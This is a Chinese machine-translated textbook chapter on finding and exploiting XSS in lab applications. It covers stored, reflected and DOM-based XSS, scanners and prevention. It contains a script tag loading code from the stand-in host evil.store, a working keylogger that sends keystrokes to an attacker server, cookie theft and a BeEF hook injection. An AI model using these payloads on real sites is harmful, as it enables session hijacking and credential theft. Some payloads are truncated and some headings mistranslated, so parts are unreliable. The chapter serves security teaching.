








# 六、查找和利用跨站点脚本（XSS）漏洞

web 浏览器是一种代码解释器，它采用 HTML 和脚本代码，以吸引人的有用格式向用户呈现文档，包括文本、图像和视频剪辑。它允许用户与动态元素交互，包括搜索字段、超链接、表单、视频和音频控件以及许多其他元素。

应用有许多方法来管理与用户的这种动态交互。当今 web 应用中最常见的一种方式是使用客户端脚本代码。这意味着服务器向客户端发送代码，这些代码将由 web 浏览器执行。

当用户输入用于确定脚本代码行为，且该输入未正确验证和消毒以防止其包含代码而非信息时，浏览器将执行注入的代码，您将有一个**跨站点脚本**（**XSS**漏洞。

XSS 是一种代码注入类型，当脚本代码被添加到用户的输入中，并由 web 浏览器作为代码而不是数据进行处理，然后 web 浏览器执行脚本代码，从而改变用户查看页面和/或其功能的方式。

# 跨站点脚本概述

名称“跨站点脚本”可能与其当前定义没有直观的关联。这是因为该术语最初指的是相关但不同的攻击。在 20 世纪 90 年代末和 21 世纪初，可以使用 JavaScript 代码从相邻窗口或框架中加载的网页读取数据。因此，恶意网站可能跨越两者之间的界限，与加载在与其域无关的完全不同的网页上的内容进行交互。这一问题后来由浏览器开发人员解决，但攻击名称是由一种技术继承的，该技术使网页在浏览器中加载并执行恶意脚本，而不是从相邻帧读取内容。

简单来说，XSS 攻击允许攻击者在其他用户的浏览器中执行恶意脚本代码。它可以是 JavaScript、VBScript 或任何其他脚本代码，尽管 JavaScript 是目前最常用的脚本代码。恶意脚本通过易受 XSS 攻击的网站传送到客户端。在客户端，web 浏览器将脚本视为网站的合法部分并执行它们。当脚本在受害者的浏览器中运行时，它可以强制它执行类似于用户可以执行的操作。该脚本还可以使浏览器执行欺诈交易、窃取 cookie 或将浏览器重定向到其他网站。

XSS 攻击通常涉及以下参与者：

*   正在执行攻击的攻击者
*   易受攻击的 web 应用
*   受害者使用网络浏览器
*   攻击者希望通过受害者重定向浏览器或进行攻击的第三方网站

让我们看一个攻击者执行 XSS 攻击的示例：

1.  攻击者首先使用合法数据测试各种输入字段中的 XSS 漏洞。将数据反射回浏览器的输入字段可能是 XSS 缺陷的候选字段。以下屏幕截图显示了一个示例，其中网站使用`GET`方法传递输入并将其显示回浏览器：


2.  一旦攻击者发现要注入的参数没有进行足够的输入验证或输入验证，他们就必须设计一种方法将包含 JavaScript 的恶意 URL 传递给受害者。攻击者可以使用电子邮件作为传递机制，或者通过网络钓鱼攻击诱使受害者查看电子邮件。
3.  该电子邮件将包含指向易受攻击的 web 应用的 URL 以及注入的 JavaScript。当受害者点击它时，浏览器解析 URL 并将 JavaScript 发送到网站。输入以 JavaScript 的形式反映在浏览器中；考虑下面的例子：

```
      <script>alert('Pwned!!')</script>. 
```

完整的 URL 为`http://example.org/hello.php?name=<script>alert('Pwned!!')</script>`。

4.  警报方法通常用于演示和测试应用是否易受攻击。我们将在本章后面探讨攻击者经常使用的其他 JavaScript 方法。

5.  如果 web 应用易受攻击，受害者浏览器中将弹出一个对话框，如以下屏幕截图所示：



XSS 的主要目标是在受害者的浏览器中执行 JavaScript，但根据网站的设计和用途，有不同的实现方法。以下是 XSS 的三大类别：

*   持久 XSS
*   脚本漏洞
*   基于 DOM 的 XSS

# 持久 XSS

当注入的数据存储在 web 服务器或数据库上时，XSS 缺陷称为**持久性**或**存储**，应用将其返回给应用的一个或所有用户而不进行验证。目标是感染网站所有访问者的攻击者将使用持续 XSS 攻击。这使攻击者能够大规模利用该网站。

持久 XSS 缺陷的典型目标如下：

*   基于 Web 的讨论论坛
*   社交网站
*   新闻网站

**持久 XSS**被认为比其他 XSS 缺陷更严重，因为攻击者的恶意脚本会自动注入受害者的浏览器。它不需要网络钓鱼攻击来引诱用户点击链接。攻击者将恶意脚本上载到易受攻击的网站上，然后将其作为其正常浏览活动的一部分发送到受害者的浏览器。As XSS 还可用于从外部站点加载脚本。这在存储的 XSS 中尤其有害。注入时，以下代码将查询远程服务器以获取要执行的 JavaScript：

```
<script type="text/javascript"  src="http://evil.store/malicious.js"></script> 
```

下图显示了易受持久 XSS 攻击的 web 应用的示例。该应用是一个在线论坛，用户可以在其中创建帐户并与他人交互。应用将用户的配置文件与其他详细信息一起存储在数据库中。攻击者确定应用未能清理保留在 comments 部分的数据，并利用此机会向该字段添加恶意 JavaScript。此 JavaScript 存储在 web 应用的数据库中。在正常浏览过程中，当无辜的受害者查看这些评论时，JavaScript 会在受害者的浏览器中执行，然后该浏览器会抓取 cookie 并将其发送到攻击者控制下的远程服务器：



最近，internet 上的多个站点上都使用了持久 XSS 来利用用户的网站作为加密货币挖掘的工作人员，或者形成浏览器的僵尸网络。

# 脚本漏洞

**反射 XSS**是一种非持续性攻击形式。恶意脚本是受害者对 web 应用的请求的一部分，然后应用以响应的形式将其反射回来。这似乎很难利用，因为用户不会愿意向服务器发送恶意脚本，但有几种方法可以诱使用户对自己的浏览器发起反射 XSS 攻击。

反射 XSS 主要用于黑客部署包含恶意脚本和 URL 的钓鱼电子邮件的目标攻击。或者，攻击可能涉及在公共网站上发布链接并诱使用户点击。这些方法与 URL 缩短服务相结合，可以缩短 URL 并隐藏长而奇怪的脚本，这会在受害者的脑海中引起怀疑，可以用来执行反射 XSS 攻击，成功率很高。

如下图所示，受害者被诱骗单击一个 URL，该 URL 将脚本传递给应用，然后在未经适当验证的情况下将其反射回来：



# 基于 DOM 的 XSS

第三种 XSS 是本地的，直接影响受害者的浏览器。此攻击不依赖发送到服务器的恶意内容，但它使用**文档对象模型**（**DOM**），这是浏览器的 API，用于操纵和呈现网页。在持久和反射 XSS 中，脚本包含在服务器的响应中。受害者的浏览器接受它，假设它是网页的合法部分，并在页面加载时执行它。在**基于 DOM 的 XSS**中，仅执行服务器提供的合法脚本。

越来越多的 HTML 页面是通过在客户端下载 JavaScript 并使用配置参数来调整用户看到的内容来生成的，而不是像应该显示的那样由服务器发送。任何时候在不刷新整个页面的情况下更改页面的某个元素时，都会使用 JavaScript 完成。一个典型的例子是一个网站，它允许用户更改页面的语言或颜色，或者调整页面中元素的大小。

基于 DOM 的 XSS 利用这种合法的客户端代码执行脚本攻击。基于 DOM 的 XSS 最重要的部分是，合法脚本使用用户提供的输入向用户浏览器上显示的网页添加 HTML 内容。

让我们讨论一个基于 DOM 的 XSS 示例：

1.  假设创建一个网页以根据 URL 中传递的城市名称显示自定义内容，则 URL 中的城市名称也会显示在用户浏览器的 HTML 网页中，如下所示：

```
      http://www.cityguide.test/index.html?city=Mumbai
```

2.  当浏览器接收到前面的 URL 时，它向`http://www.cityguide.test`发送请求以接收网页。在用户的浏览器上，下载并运行一个合法的 JavaScript，它编辑 HTML 页面，将城市名称添加到加载页面的标题顶部作为标题。城市名称取自 URL（在本例中为`Mumbai`）。因此，城市名称是用户可以控制的参数。
3.  如前所述，基于 DOM 的 XSS 中的恶意脚本不会发送到服务器。为了实现这一点，`#`标志用于防止标志后的任何内容被发送到服务器。因此，服务器端代码无法访问它，即使客户端代码可以访问它。

恶意 URL 可能如下所示：

```
      http://www.cityguide.test/index.html?#city=<script>function</script>
```

4.  加载页面时，浏览器会点击使用 URL 中的城市名称生成 HTML 内容的合法脚本。在这种情况下，合法脚本遇到恶意脚本，并将脚本写入 HTML 正文而不是城市名称。呈现网页时，脚本将被执行，从而导致基于 DOM 的 XSS 攻击。

下图说明了基于 DOM 的 XSS：

# 使用 POST 方法的 XSS

在前面的示例中，您已经看到了使用`GET`方法向受害者传递恶意链接或将有效负载存储在服务器中。虽然在现实生活中攻击可能需要更复杂的设置，但使用`POST`请求的 XSS 攻击也是可能的。

由于`POST`参数是在请求正文中发送的，而不是在 URL 中发送的，因此使用此方法的 XSS 攻击需要攻击者说服受害者浏览到攻击者控制的站点。这将是向易受攻击的服务器发送恶意请求的服务器，该服务器将因此响应用户，如下图所示：


由`POST`或`GET`方法发送的其他 XSS 攻击向量
表单参数并不是唯一用于 XSS 攻击的。头值，例如`User-Agent`、`Cookie`、`Host`和任何其他头（其信息反映给客户端）也容易受到 XSS 攻击，即使是通过`OPTIONS`或`TRACE`方法。作为渗透测试人员，您需要完全测试由服务器处理并反馈给用户的请求的所有组件。

# 利用跨站点脚本

黑客在利用 XSS 漏洞时非常有创意，并且随着当前浏览器中 JavaScript 的功能，攻击的可能性增加了。XSS 结合 JavaScript 可用于以下类型的攻击：

*   帐号劫持
*   更改内容
*   污损网站
*   从受害者的机器上运行端口扫描
*   记录击键并监视用户的活动
*   窃取浏览器信息
*   利用浏览器漏洞

触发 XSS 漏洞的方式多种多样，不仅仅是`<script></script>`标记。请参阅以下链接中的 OWASP 备忘单：
[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

在以下几节中，我们将看一些实际例子。

# 偷饼干

XSS 漏洞的直接影响之一是，如果 cookie 的参数配置不当，攻击者可能会使用脚本代码窃取有效的会话 cookie，并使用它劫持用户的会话。

为了收集会话 cookie，攻击者需要让 web 服务器运行并侦听注入的应用发送的请求。在最基本的情况下，从基本的 Python HTTP 服务器，到运行接收和存储 ID 的应用的适当 Apache 或 nginx 服务器，甚至使用它们自动执行进一步的攻击，都可以实现这一点。为了演示，我们将使用基本的 Python 服务器。在 Kali Linux 的终端会话中执行以下命令，在端口`8000`上运行服务器：

```
python -m SimpleHttpServer 8000  
```

服务器运行后，您将利用 OWASP BWA 虚拟机中包含的 WackoPicko web 应用中的持久 XSS 进行攻击。浏览到 Kali Linux 中的 WackoPicko，并在留言簿表单中提交带有以下代码的评论：

```
<script>document.write('');</script> 
```

注意，`127.0.0.1`是 Kali Linux 的本地 IP 地址。应将其替换为设置为接收 cookie 的服务器的地址：


每次加载留言簿页面时，它都会执行脚本并尝试从外部服务器获取图像。获取此类图像的请求包括 URL 中的会话 cookie，将记录在接收服务器上，如以下屏幕截图所示：


# 网站污损

使用 XSS 破坏网站（改变其视觉外观）并不是一种常见的攻击。尽管如此，这是可以做到的，特别是对于持久性漏洞，并且它可能会对网站被破坏的公司造成严重的声誉损害，即使服务器的文件没有更改。

您可以通过多种方式使用 JavaScript 更改网站的外观。例如，插入诸如`div`或`iframe`之类的 HTML 元素、替换样式值、更改图像源以及许多其他技术都可以改变网站的外观。您还可以使用文档正文的`innerHTML`属性替换页面的整个 HTML 代码。

Mutillidae II 有一个 DOM XSS 测试表单，可以帮助我们进行测试。在菜单中，转到 OWASP 2013 | A3-跨站点脚本（XSS）| DOM 注入| HTML5 存储。此演示应用将信息保存到浏览器的 HTML5 存储中，并且它包含许多漏洞。在这里，我们将重点关注一个事实，即当一个元素被添加到存储中时，它会反映关键点，如以下屏幕截图所示：



表单有一定程度的消毒，因为`script`标签没有得到反映：


在对不同的注入字符串进行一些尝试和错误之后，您会发现一个源不存在的`img`标记（例如，`src`参数）可以工作：

```
Defaced with XSS</h1>'"> 
```

将该代码设置为新元素的键并单击“添加新”将显示以下内容：


如前所述，这样的攻击不会更改 web 服务器上的文件，只有运行恶意脚本的用户才会注意到这些更改。当攻击持久性 XSS 时，破坏可能会影响大量用户，因为攻击者不需要像反射的和基于 DOM 的 XSS 那样单独攻击每个受害者。无论哪种方式，这都可能导致用户将敏感信息提供给攻击者，同时认为他们正在将其提交给合法网站。

# 关键伐木工人

利用 XSS 收集用户敏感信息的另一种方法是将浏览器转变为键盘记录器，捕获每个击键并将其发送到攻击者控制的服务器。这些按键可能包括用户在页面中输入的敏感信息，如姓名、地址、密码、秘密问题和回答、信用卡信息和其他类型，具体取决于易受攻击页面的用途。

我们将使用预先安装在 Kali Linux 中的 Apache web 服务器，将击键存储在一个文件中，以便在利用 XSS 时检查易受攻击的应用发送的密钥。服务器将有两个文件：`klog.php`和`klog.js`。

以下是`klog.php`文件的外观：

```
<?php 
  if(!empty($_GET['k'])) { 
    $file = fopen('keys.txt', 'a'); 
    fwrite($file, $_GET['k']); 
    fclose($file); 
  } 
?> 
```

以下是`klog.js`文件的外观：

```
var buffer = []; 
var server = 'http://10.7.7.4/klog.php?k=' 
document.onkeypress = function(e) { 
  buffer.push(e.key); 
} 
window.setInterval(function() { 
  if (buffer.length > 0) { 
    var data = encodeURIComponent(buffer); 
    new Image().src = server + data; 
    buffer = []; 
  } 
}, 200); 
```

这里，`10.7.7.4`是 Kali Linux 机器的地址，因此受害者将向该服务器发送缓冲区。此外，根据系统的配置，您可能需要在代码中指定的路径中创建`keys.txt`文件。在本例中，它是 web 根目录（`/var/www/html/`。另外，添加写入权限或设置 Apache 用户的所有权，以防止 web 服务器尝试更新本地文件时出现权限错误：

```
touch /var/www/html/keys.txt
chown www-data /var/www/html/keys.txt
```

这是键盘记录器的最简单版本。更复杂的版本可能包括以下内容：

*   捕获的时间戳
*   发送信息的用户或计算机的标识符
*   将密钥保存到数据库以方便查询、分组和排序
*   控制功能，如启动和停止键记录器，触发某些键或组合上的操作

在渗透测试期间，应尽可能避免从客户端或用户捕获信息，尽管有时这对于正确覆盖某些攻击向量是必要的。在这种情况下，必须对此类信息的传输、存储和处理采取适当的安全措施。如果将任何信息发送到渗透测试仪控制的服务器，则必须使用 HTTPS、SSH 或其他安全协议对通信进行加密。存储也必须加密。建议使用全磁盘加密，但还需要在其上进行数据库和文件加密。此外，根据接战规则，可能会请求安全删除所有信息。

再次使用 WackoPicko 的留言簿，提交以下评论：


这将在用户每次访问留言簿页面时加载页面中的外部 JavaScript 文件，并捕获他们发出的所有击键。您现在可以在页面中键入任何内容，并将其发送到服务器。

如果要查看到目前为止记录的内容，只需查看 Kali Linux 中的`keys.txt`文件：


您可以看到，由于密钥在客户机中缓冲并以固定的间隔发送，因此存在由逗号分隔的不同长度的组，不可打印的密钥按名称写入：`ArrowLeft`、`ArrowRight`、`Backspace`、`Home`、`End`等等。

# 使用 XSS 控制用户的浏览器

一种称为**浏览器中人**（**MITB**的攻击使用 JavaScript 将用户的浏览器连接到**命令和控制**（**C2**服务器，该服务器使用脚本向浏览器发出命令并从中收集信息。XSS 可以作为一种工具，让用户在访问易受攻击的应用时加载这样的脚本。攻击者可以执行以下操作：

*   读击键
*   提取保存在浏览器中的密码
*   读取 cookie 和 HTML5 存储
*   启用麦克风和网络摄像头（可能需要用户交互）
*   利用浏览器漏洞
*   使用浏览器作为组织内部网络的轴心
*   控制浏览器选项卡和窗口的行为
*   安装恶意浏览器扩展

Kali Linux 包括**浏览器攻击框架**（**BeEF**），这是一种工具，用于设置托管 C2 中心的 web 服务器以及 MITB 攻击中受害者调用的钩子代码。

接下来，我们将演示攻击者如何使用 XSS 让客户端（用户的浏览器）调用该钩子文件，以及如何使用该钩子文件在此类浏览器上远程执行操作：

1.  首先，您需要在 Kali Linux 中启动`beef-xss`服务。这可以通过应用菜单：应用| 13-社会工程工具| xss 框架，或通过终端完成，如下所示：

```
      beef-xss
```


如果服务正确启动，您应该能够浏览到控制面板。默认情况下，BeEF 在端口`3000`上运行，因此浏览到[`http://127.0.0.1:3000/ui/panel`](http://127.0.0.1:3000/ui/panel)并使用默认用户名和密码`beef`/`beef`登录，如下图：


2.  攻击者的下一步是利用持久性 XSS 进行攻击，或诱骗用户单击指向恶意站点或易受 XSS 攻击的站点的链接。

现在，作为受害者，转到 Mutillidae（OWASP 2013 | A3-跨站点脚本（XSS）|反射（一阶）| DNS 查找）并在主机名/IP 文本框中提交以下内容：

```
      <script src="http://10.7.7.4:3000/hook.js"></script> 
```


3.  同样，`10.7.7.4`是运行 BeEF 的服务器的地址。在本例中，您的 Kali Linux 机器。您可以看到结果显示为空，但如果您浏览到牛肉控制面板，您将看到您连接了一个新浏览器。在“详细信息”选项卡中，您可以看到有关此浏览器的所有信息：



4.  如果转到当前浏览器中的“日志”选项卡，您将看到挂钩记录用户在浏览器中执行的所有操作，从单击和击键到更改窗口或选项卡：


5.  在“命令”选项卡中，可以向受害者浏览器发出命令。例如，在以下屏幕截图中，请求了一个 cookie：


# 扫描 XSS 缺陷

由于存在数百种可能的负载变体，并且是 web 应用中最常见的漏洞之一，XSS 有时很难找到，或者如果发现，很难生成令人信服的概念验证漏洞，从而激发客户团队投入时间和精力来修复它。此外，具有数百或数千个输入参数的大型应用几乎不可能在时间盒测试中完全覆盖。

出于这些原因，您可能需要使用自动化来更快地生成结果，即使可能会牺牲一定程度的精度，并且会增加触发应用中某些服务中断的风险。有许多免费和付费的 web 漏洞扫描器，具有广泛的准确性、稳定性和安全性。现在，我们将审查两个专门的 XSS 漏洞扫描器，这些漏洞已被证明是有效和可靠的。

# XSSer

**跨站点“Scripter”**（**XSSer**）是一个自动框架，旨在检测、利用和报告基于 web 的应用中的 XSS 漏洞。它包含在 Kali Linux 中。

XSSer 可以检测持久的、反射的和基于 DOM 的 XSS，扫描指定的 URL 或基于给定查询在 Google 中搜索潜在目标，通过不同的机制进行认证，并执行许多其他任务。

让我们尝试使用 BodgeIt 的搜索请求作为目标进行简单扫描。为此，在 Kali Linux 的终端中发出以下命令：

```
xsser -u http://10.7.7.5/bodgeit/search.jsp -g ?q=  
```

这里，XSSer 正在`-u`参数指示的 URL 上运行，并使用`GET`方法和`q`（`-g ?q=`参数）进行扫描。这意味着扫描器将把它的有效载荷附加到在`-g`之后指定的字符串上，其结果将附加到 URL 上，因为它使用的是`GET`。运行命令后，您将看到结果，表明测试的 URL 易受 XSS 攻击：



还可以使用以下命令使用 GUI：

```
xsser -gtk
```

以下是 GUI 的外观：



# 狙击手

XSS 狙击手不包括在 Kali Linux 中，但绝对值得一试。它是 Gianluca Brindisi 开发的一个开源工具，可以搜索 XSS 漏洞，包括特定 URL 中基于 DOM 的 XSS，也可以对整个站点进行爬网。虽然没有 XSSer 功能丰富，但在 XSSer 不可用或无法验证结果时，它是一个不错的选择。

XSS Sniper 可以从其 GitHub 存储库下载：

```
git clone https://github.com/gbrindisi/xsssniper.git
```

要对`GET`请求运行基本扫描，请仅使用`-u`参数，后跟包含测试值的完整 URL：

```
python xsssniper.py -u http://10.7.7.5/bodgeit/search.jsp?q=test
```



Burp Suite Professional 和 OWASP ZAP 包含一个漏洞扫描功能，可以准确地检测许多 XSS 实例。也可以使用 W3af、Skipfish 和马鹿等扫描器。

# 防止和减轻跨站点脚本编写

与任何其他注入漏洞一样，正确的输入验证是防止 XSS 的第一道防线。此外，如果可能，避免使用用户输入作为输出信息。清理和编码是防止 XSS 的关键方面。

**清理**意味着从字符串中删除不允许的字符。当输入字符串中不应存在特殊字符时，这非常有用。

编码将特殊字符转换为其 HTML 代码表示形式。例如，`&`至`&amp;`或`<`至`&lt;`。某些类型的应用可能需要允许在输入字符串中使用特殊字符。对于这些应用，消毒不是一个选项。因此，在将输出数据插入页面并存储在数据库中之前，他们应该对其进行编码。

验证、清理和编码过程必须在客户端和服务器端都进行，以防止所有类型的 XS 和其他代码注入。

有关防止跨站点脚本的更多信息，请访问以下 URL:

*   [https://www.owasp.org/index.php/XSS_（跨站点脚本）【防作弊单】T4](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
*   [https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting)
*   [https://www.acunetix.com/blog/articles/preventing-xss-attacks/](https://www.acunetix.com/blog/articles/preventing-xss-attacks/)

# 总结

在本章中，我们详细讨论了 XSS 缺陷。我们首先研究了脆弱性的起源及其多年来的演变。然后，您了解了 XSS 的不同形式及其攻击潜力。我们还分析了攻击者如何利用不同的 JavaScript 功能在受害者的浏览器中执行各种操作，例如窃取会话 cookie、记录按键、破坏网站以及远程控制 web 浏览器。Kali Linux 有几个工具来测试和利用 XSS 缺陷。我们使用 XSSer 和 XSS Sniper 来检测 web 应用中的漏洞。在最后一节中，我们回顾了为防止或修复 web 应用中的 XSS 漏洞而应采取的一般措施。

在下一章中，我们将描述跨站点请求伪造，并展示如何利用它诱骗经过认证的用户执行不希望的操作，还将给出如何防止此类缺陷的建议。